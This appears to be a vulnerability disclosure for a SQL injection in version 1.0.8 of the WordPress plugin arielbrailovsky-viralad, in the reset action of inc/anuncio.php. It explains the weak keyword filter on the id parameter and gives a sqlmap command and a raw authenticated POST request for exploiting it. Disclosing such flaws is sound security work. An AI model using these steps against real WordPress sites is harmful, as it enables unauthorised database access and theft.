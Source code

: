 ### The data reset interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: reset records

**Injection parameters**: id

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=2&accion=reset&nocache=0.8101696846894093&security=jltxw2pv7ui15k6ghf8q]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is reset, the incoming ID will be directly obtained and processed by the limpia function, and then directly spliced into the SQL query statement for execution.

![image-20250302202815587](assets/image-20250302202815587.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as case, keyword replacement, blind injection, etc.).

![image-20250302202853082](assets/image-20250302202853082.png)

Therefore, attackers can easily construct malicious SQL injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 74
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=2&accion=reset&nocache=0.8101696846894093&security=jltxw2pv7ui15k6ghf8q
```

![image-20250302203112295](assets/image-20250302203112295.png)
